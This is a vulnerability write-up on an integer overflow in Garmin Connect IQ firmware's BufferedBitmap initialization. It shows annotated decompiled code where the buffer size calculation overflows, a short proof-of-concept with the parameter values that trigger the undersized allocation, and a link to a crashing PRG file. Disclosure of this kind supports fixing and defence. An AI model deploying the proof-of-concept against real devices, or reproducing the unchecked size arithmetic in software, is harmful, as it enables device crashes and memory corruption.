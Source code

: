 # Integer Overflows in `BufferedBitmap` Initialization
The `Toybox.Graphics.BufferedBitmap` object can be initialized with various parameters, including:

- width
- height
- palette
- color depth

Those values are used to compute the size of the buffer to allocate for the buffered bitmap. However, the firmware does not handle integer overflows and it is possible to specify values that will lead to a smaller-than-expected allocated buffer.

```c
s_tvm_ctx * native:Toybox.Graphics.BufferedBitmap.initialize(s_tvm_ctx *ctx)
{
// [...]
    ret = (s_tvm_ctx *)tvm_object_convert_to_int-?(ctx,&value_field,&int_field_width);
    if (ret != (s_tvm_ctx *)0x0) {
      return ret;
    }
    // Anvil: width is 4 bytes and cannot be < 0x80000000
    if (int_field_width < 0) {
      return (s_tvm_ctx *)0xa;
    }
// [...]
    ret = (s_tvm_ctx *)tvm_object_convert_to_int-?(ctx,&value_field,&int_field_height);
    if (ret != (s_tvm_ctx *)0x0) {
      return ret;
    }
    // Anvil: height is 4 bytes and cannot be < 0x80000000
    if (int_field_height < 0) {
      return (s_tvm_ctx *)0xa;
    }
// [...]
    // Anvil: bits per pixel computed based on the size of the palette
    if (length_array_palette != 0) {
      if (length_array_palette < 3) {
                    /* 2-color palette */
        bits_per_pixel = 1;
      }
      else if (length_array_palette < 5) {
                    /* 4-color palette */
        bits_per_pixel = 2;
      }
      else if (length_array_palette < 17) {
                    /* 16-color palette */
        bits_per_pixel = 4;
      }
      else if (length_array_palette < 257) {
                    /* 256-color palette */
        bits_per_pixel = 8;
      }
      else {
        ret = (s_tvm_ctx *)thunk_FUN_00179a5c(ctx,(uint *)PTR_DAT_04796dc0,PTR_s_Palette_cannot_exceed_256_colors_04796dc8);
        if (ret != (s_tvm_ctx *)0x0) {
          return ret;
        }
      }
    }
// [...]
    total_bytes_width = int_field_width * bits_per_pixel + 0x1f;
    if (total_bytes_width < 0) {
      total_bytes_width = int_field_width * bits_per_pixel + 0x3e;
    }
    total_bytes_width = (total_bytes_width >> 5 & 0x3fffU) * 4;
    // Anvil: The final size can overflow
    total_bytes = int_field_height * total_bytes_width + palette_size;
// [...]
	// Anvil: And the allocated size can be smaller than expected
    tvm_mem_alloc(ctx,total_bytes + 0x48U,0,&resource_object);
```

The following proof-of-concept will result in an incorrect `total_bytes` value:

```java
var options = {
	:width => 0x3ff0,
	:height => 0x41004010,
	:palette => [
		Graphics.COLOR_WHITE, Graphics.COLOR_BLACK, Graphics.COLOR_BLUE, Graphics.COLOR_GREEN,
	]
};
mBuffer = new Graphics.BufferedBitmap(options);
```

The following `PRG` file will crash the device: <https://github.com/anvilsecure/garmin-ciq-app-research/blob/main/poc/GRMN-04.prg>